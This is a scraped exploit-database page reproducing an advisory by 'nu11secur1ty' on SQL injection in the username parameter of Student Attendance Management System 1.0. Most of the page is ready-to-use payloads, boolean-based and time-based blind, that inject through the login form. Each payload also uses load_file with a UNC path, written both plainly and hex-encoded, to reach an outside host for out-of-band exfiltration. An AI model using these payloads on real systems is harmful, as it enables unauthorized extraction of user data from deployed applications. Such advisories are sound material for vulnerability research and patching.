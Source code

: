 ```yaml
---
title: Student Attendance Management System 1.0 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:170333&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-12-28
fetch_date: 2025-10-04T02:35:04.191158
---
```


# Student Attendance Management System 1.0 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Student Attendance Management System 1.0 SQL Injection

2022-12-27 | CVSS 0.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:170333
## Title: Student-Attendance-Management-System 1.0 from Erick O. Omundi Multiple-SQLi
## Author: nu11secur1ty
## Date: 12.25.2022
## Vendor: https://github.com/rickxy
## Software: https://github.com/rickxy/Student-Attendance-Management-System
## Reference: https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/rickxy/2022/Student-Attendance-Management-System

## Description:
The `username` parameter appears to be vulnerable to Multiple-SQL
injection attacks.
The attacker can retrieve all sensitive information about the users of
this system and more bad things.

## STATUS: CRITICAL Vulnerability

[+] Payload:

```MySQL
---
Parameter: username (POST)
Type: boolean-based blind
Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY
or GROUP BY clause
Payload: userType=Administrator&username=lBPxXeUT'+(select
load_file('\\\\eq8r4p3b9u6gn42v38f6ca4cf3lw9oxf03sqje8.erick_from_America.com\\khw'))+''
RLIKE (SELECT (CASE WHEN (6217=6217) THEN 0x6c42507858655554+(select
load_file(0x5c5c5c5c6571387234703362397536676e343276333866366361346366336c77396f7866303373716a65382e657269636b5f66726f6d5f416d65726963612e636f6d5c5c6b6877))+''
ELSE 0x28 END)) AND 'FUJm'='FUJm&password=q2H!z4n!F1&login=Login

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: userType=Administrator&username=lBPxXeUT'+(select
load_file('\\\\eq8r4p3b9u6gn42v38f6ca4cf3lw9oxf03sqje8.erick_from_America.com\\khw'))+''
AND (SELECT 8687 FROM (SELECT(SLEEP(7)))btHE) AND
'XFcq'='XFcq&password=q2H!z4n!F1&login=Login
---
```

## Reproduce:
[href]()https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/rickxy/2022/Student-Attendance-Management-System

## Proof and Exploit:
[href](https://streamable.com/goy6ka)

## Time spent
`00:30:00`
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)